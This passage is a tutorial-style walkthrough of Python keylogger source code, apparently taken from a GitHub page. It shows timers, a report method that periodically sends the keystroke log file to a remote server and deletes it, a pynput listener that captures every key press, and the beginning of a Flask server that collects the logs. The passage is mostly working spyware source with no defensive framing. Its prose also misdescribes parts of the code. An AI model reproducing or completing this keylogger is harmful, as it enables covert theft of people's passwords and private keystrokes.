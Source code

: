 ```python
        self.log_timer = threading.Timer(self.logTimer, self.log)
        # Start the timer
        self.log_timer.start()
```
The `report` method is used to send the log data in the file to the server. It first checks if the log file exists and is not empty, and then sends a `POST` request to the server with the log data as the request body. If the request is successful, it deletes the log file and resets the `string` attribute to an empty string. If the request is not successful, it logs the error message to the `string` attribute. The `report` method is called periodically by the `report_timer` timer object.

```python
 def report(self):
        # If the report_timer is not None, cancel it
        if self.report_timer is not None:
            self.report_timer.cancel()

        # If the log file is larger than the specified size threshold,
        if os.stat('log.txt').st_size > self.sizeThreshold:
            # Attempt to send the log file to the server and remove it if the send was successful
            try:
                # Send the log file to the server
                success = self.send_log('log.txt')
                # If the send was successful, remove the log file
                if success:
                    os.remove('log.txt')
            except:
                # If an error occurred while sending the log file, do nothing
                pass

        # Create a new timer object with the specified reportTimer interval
        self.report_timer = threading.Timer(self.reportTimer, self.report)
        # Start the timer
        self.report_timer.start()
```
The `run` method is used to start the keylogger. This method sets up the `log_timer` and `report_timer` timer objects and starts them. The `log_timer` timer object calls the `log` method periodically to log key presses to a file. The `report_timer` timer object calls the `report` method periodically to send the log data to the server. This method also sets up a `KeyboardListener` object from the `pynput` library and starts it. The `KeyboardListener` object calls the `onpress` method of the Keylogger object whenever a key is pressed on the keyboard. The `onpress` method logs the key press and adds the appropriate character to the `string` attribute.
```python
def run(self):
        # Start the report timer
        self.report()
        # Start the log timer
        self.log()
        # Create a Listener object and specify the onpress callback function
        with Listener(on_press=self.onpress) as listener:
            # Start listening for key presses
            listener.join()


logger = Keylogger()
logger.run()
```
This code defines a simple Flask server that receives log data from the keylogger. When the server receives a request at the `/log` endpoint, it gets the current date and time and uses that information to create a unique filename for the log data. The log data is then written to a file with that filename. The server then responds with the string 'OK' to indicate that the request was successful.
```python
# Import the Flask class from the flask module
from flask import Flask, request
# Import the datetime class from the datetime module
```